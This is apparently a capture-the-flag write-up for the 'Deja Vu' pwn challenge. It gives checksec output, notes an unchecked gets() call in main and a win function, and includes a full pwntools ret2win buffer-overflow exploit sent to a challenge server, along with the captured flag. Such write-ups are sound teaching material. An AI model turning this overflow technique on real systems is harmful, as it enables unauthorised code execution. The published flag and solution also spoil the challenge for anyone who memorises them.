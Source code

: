 https://ctftime.org/event/2708

# Deja Vu (pwn)

We've seen this before

nc 20.84.72.194 5000

## Analysis

```bash
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`main` @ `0x4012ec`

- Calls `gets(local_48)`

`win` @ `0x4011f6`

- Prints the flag to `stdout`

## Solution

1) ret2win

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./deja-vu", checksec=False)
context.binary = elf
#context.terminal = ["tmux", "splitw", "-h"]

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("20.84.72.194", 5000)

payload = b""
payload += b"A" * 0x48
payload += p64(elf.sym["win"]+5)

p.sendline(payload)

p.readuntil(b"squ1rrel{")
print("squ1rrel{" + p.readuntil(b"}").decode()) # squ1rrel{w3v3_b33n_h3r3_b3f0r3_n0w_0nt0_b1gger_4nd_better}
```

## Flag
`squ1rrel{w3v3_b33n_h3r3_b3f0r3_n0w_0nt0_b1gger_4nd_better}`

smiley 2025/04/05
